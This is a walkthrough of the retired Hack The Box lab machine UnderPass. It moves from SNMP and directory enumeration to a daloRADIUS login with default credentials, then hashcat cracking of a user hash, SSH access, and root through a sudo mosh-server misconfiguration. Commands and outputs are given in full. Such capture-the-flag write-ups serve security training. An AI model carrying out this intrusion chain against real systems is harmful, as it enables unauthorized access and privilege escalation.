

<style>
  article img {
    max-width: 100%;
    width: auto;
    height: auto;
    border-radius: 12px;
    box-shadow: var(--box-shadow);
    margin: 1em auto;
    display: block;
  }
</style>

<article>

## Overview

This is a walkthrough of the retired Hack The Box machine **UnderPass**. The machine involves:

- SNMP enumeration  
- Accessing a hidden daloRADIUS admin panel  
- Cracking a user password hash  
- Exploiting a misconfigured sudo permission on `mosh-server` to get root.

---
## Enumeration

### Initial Nmap Scan

Running a full TCP port scan reveals two open ports on the target machine:

- **Port 80:** HTTP web server (Apache2)
    
- **Port 22:** SSH service
    

Command used:  

```nmap -sC -sV -p- 10.10.11.48```


### UDP Scan

To be thorough, I performed UDP scan targeting the top 100 UDP ports:

```nmap -sU --top-ports 100 10.10.11.48```

This revealed an **open SNMP service** which is worth further investigation.

### Web Server Inspection

Browsing to the web server ([http://10.10.11.48](http://10.10.11.48)) shows the default Apache2 Ubuntu welcome page , no custom web content yet.

### Version Checks

I checked the versions of Apache and SSH for known vulnerabilities, but no useful exploits were found for the versions in use.

### SNMP Enumeration

Using snmpwalk with the community string public gave valuable information:

```snmpwalk -v2c -c public 10.10.11.48```

Output included:

- OS details: Linux underpass 5.15.0-126-generic
    
- Contact email: steve@underpass.htb
    
- System description mentioning daloRADIUS — a RADIUS management web app
    

This hints at the presence of daloRADIUS on the server.

### Accessing the daloRADIUS Web Application

Attempting to reach the daloRADIUS interface at:

[http://underpass.htb/daloradius/](http://underpass.htb/daloradius/)

results in a **403 Forbidden** error  the directory is restricted.

### Directory Bruteforce with Gobuster

To find accessible subdirectories, I ran:

```gobuster dir -u [http://underpass.htb/daloradius/](http://underpass.htb/daloradius/) -w /usr/share/wordlists/dirb/common.txt -x php,html,txt```


### Using Feroxbuster for Faster Enumeration

Switching to feroxbuster with a larger wordlist and more threads uncovered more content quickly:

```feroxbuster -u [http://underpass.htb/daloradius/app](http://underpass.htb/daloradius/app) -w /usr/share/wordlists/dirb/big.txt -t 50 -o feroxbuster_app.txt```

This revealed the key login page:

[http://underpass.htb/daloradius/app/operators/login.php](http://underpass.htb/daloradius/app/operators/login.php)

### Accessing Admin Panel with Default Credentials

Checking the official daloRADIUS GitHub repository reveals default credentials:

- Username: administrator
    
- Password: radius
    

Using these, I successfully logged into the admin panel.

### Extracting User Password Hash

Inside the users panel, I found a user named svcMosh with a password hash:

412DD4759978ACFCC81DEAB01B382403


---

## Cracking the Password Hash

I saved the hash to a file:

```echo "412DD4759978ACFCC81DEAB01B382403" > pass.txt```

Then ran hashcat against it using the rockyou wordlist:

```hashcat -m 0 -a 0 pass.txt /usr/share/wordlists/rockyou.txt```

Hashcat cracked it quickly, revealing the password:

```underwaterfriends```

---

## Initial Access via SSH

Armed with the username and cracked password, I accessed the machine via SSH:

```ssh svcMosh@10.10.11.48```

After connecting I listed all directories with ls and found the user flag. 


---

## User Enumeration

Once logged in, I ran:

```id```

To confirm the user identity:B

```uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)```

Checking sudo privileges:

```sudo -l```

Output:

```Matching Defaults entries for svcMosh on localhost:  
env_reset, mail_badpass,  
secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,  
use_pty

User svcMosh may run the following commands on localhost:  
(ALL) NOPASSWD: /usr/bin/mosh-server
```

This is critical, svcMosh can run /usr/bin/mosh-server **with root privileges and without a password**.

---

## Privilege Escalation

I exploited this by running:

```
sudo /usr/bin/mosh-server new -s /bin/bash
```

Output:

```Warning: SSH_CONNECTION not found; binding to any interface.

MOSH CONNECT 60002 qldECKNOx1HiI/IQdQbSFg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]

[mosh-server detached, pid = 2185]
```

Then connected to the root shell with:

```
export MOSH_KEY='qldECKNOx1HiI/IQdQbSFg'  
mosh-client 127.0.0.1 60002
```
I now had an interactive **root shell**:

**Note:**  When running `mosh-server`, it will generate a **unique token** (the `MOSH_KEY`) and may bind to a **different UDP port** each time typically in the 60000–61000 range.

Be sure to copy the exact `MOSH CONNECT` values it gives you.  
Then use:

```
export MOSH_KEY='your_generated_token_here'
mosh-client 127.0.0.1 your_udp_port_here
```

If the port or key doesn’t match, the connection will fail with a “Nothing received from server” error.



Once I had access to the root shell I was able to list directories to view the root flag. 


---

## Conclusion

This box highlights the power of thorough enumeration, SNMP revealed key info leading to daloRADIUS discovery and user hash extraction. The privilege escalation leveraged a sudo misconfiguration, allowing root access through mosh-server. Always verify and restrict sudo privileges to avoid such issues.

---


<article>